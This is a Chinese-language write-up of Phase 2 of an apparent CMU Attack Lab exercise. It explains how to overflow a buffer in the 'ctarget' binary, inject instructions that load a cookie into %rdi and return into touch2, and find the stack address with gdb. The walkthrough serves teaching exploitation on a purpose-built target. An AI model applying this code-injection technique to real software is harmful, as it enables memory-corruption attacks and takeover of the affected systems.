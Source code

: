 这是`Phase 2`要做的事情。不但要让`ctarget`跳转到指定函数，还要给那个函数传个参数。要跳转到的函数是`touch2`，先看看反汇编代码：

```nasm
00000000004017ec <touch2>:
  4017ec:    48 83 ec 08              sub    $0x8,%rsp
  4017f0:    89 fa                    mov    %edi,%edx
  4017f2:    c7 05 e0 2c 20 00 02     movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:    00 00 00 
  4017fc:    3b 3d e2 2c 20 00        cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:    75 20                    jne    401824 <touch2+0x38>
  401804:    be e8 30 40 00           mov    $0x4030e8,%esi
  401809:    bf 01 00 00 00           mov    $0x1,%edi
  40180e:    b8 00 00 00 00           mov    $0x0,%eax
  401813:    e8 d8 f5 ff ff           call   400df0 <__printf_chk@plt>
  401818:    bf 02 00 00 00           mov    $0x2,%edi
  40181d:    e8 6b 04 00 00           call   401c8d <validate>
  401822:    eb 1e                    jmp    401842 <touch2+0x56>
  401824:    be 10 31 40 00           mov    $0x403110,%esi
  401829:    bf 01 00 00 00           mov    $0x1,%edi
  40182e:    b8 00 00 00 00           mov    $0x0,%eax
  401833:    e8 b8 f5 ff ff           call   400df0 <__printf_chk@plt>
  401838:    bf 02 00 00 00           mov    $0x2,%edi
  40183d:    e8 0d 05 00 00           call   401d4f <fail>
  401842:    bf 00 00 00 00           mov    $0x0,%edi
  401847:    e8 f4 f5 ff ff           call   400e40 <exit@plt>
```

对比`Writeup`里面的C代码，可以看到，`val`是参数，而且出现在了第一个`cmp`指令中。第一个`cmp`指令比较了`edi`寄存器和一个内存中的变量的大小，其中内存中的变量被指出是`cookie`的值，所以`rdi`寄存器里面放着要传的参数。

我们的任务是把`cookie`的值放到`rdi`寄存器，然后跳转到`touch2`。这就要执行多条指令，我们要让程序先跳转执行我们设置的几条指令。这几条指令的二进制数据也要通过终端IO输入进来。

先找个地方放指令。可以放指令的地方很多，可以说是整个栈。只要填充多几个字节，想放在栈的哪个位置都可以。为了简单，这里就放在之前输入的48个字节的开头。

要确定指令二进制数据的内容，先写出指令，编译之后再反编译，就可以知道十六进制表达形式。

写出指令：

```nasm
movq    $0x59b997fa,%rdi
pushq   $0x4017ec
ret
```

编译一下：

```shell
gcc -c inject-touch2.s
```

再反编译：

```shell
objdump -d inject-touch2.o
```

就获得了指令的十六进制表达。

还要确定返回地址的内容。返回地址应该给成上面几条指令存放的地址，这个地址由栈的位置决定。通过`gdb`确定进入`getbuf`后，分配完`buf`数组时`rsp`寄存器的值。这时的`rsp`寄存器的值就是`buf`寄存器的开头地址，把指令放在输入的开头，这就是指令的位置。
